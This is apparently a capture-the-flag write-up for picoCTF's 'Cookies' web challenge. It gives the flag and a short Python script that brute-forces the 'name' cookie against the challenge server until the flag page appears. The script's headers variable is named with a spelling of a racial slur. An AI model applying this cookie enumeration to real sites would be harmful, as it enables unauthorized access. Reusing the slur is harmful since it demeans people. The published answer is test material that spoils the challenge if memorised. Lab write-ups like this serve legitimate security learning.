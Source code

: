 # Cookies

### Flag: picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535} 


    - The Challenge is Called Cookies so Naturally First thought is that is has something to do with Web Cookies.
    - The Challenge Description provides us links to the following web-app `http://mercury.picoctf.net:17781/`

![Home Image](assets/web_home.png)
    
    - Inspecting the Dev panel we notice something very interesting, There's a Cookie called "name" with the values "-1"
    - Ok lets Explore further 

![Requests Image](assets/request_image.png) Next typing the prompt on the text box gives us 2 Network Requests as seen on the image. 

    - Ok, now lets try with something random in the box

![invalid Request Image](assets/random_req_image.png) 

    - so it seems that when we search a valid string  the search sets up the name cookie redirects us to '/check' and if not it just sends us back to the home page
    - We need to Find the valid cookie value for the flag, 

```py
    import requests
    for i in range(100):
        print(i) #debugging
        changed_values = f"name={i}"
        niga={'Cookie': changed_values}


        r=requests.get("http://mercury.picoctf.net:17781/check",headers=niga)

        if "picoCTF" in r.text:
            print(r.text)
            break
```



    - This Code Prints the Html oF the page with the flag. 
 
    - looking through the html we get the flag. 
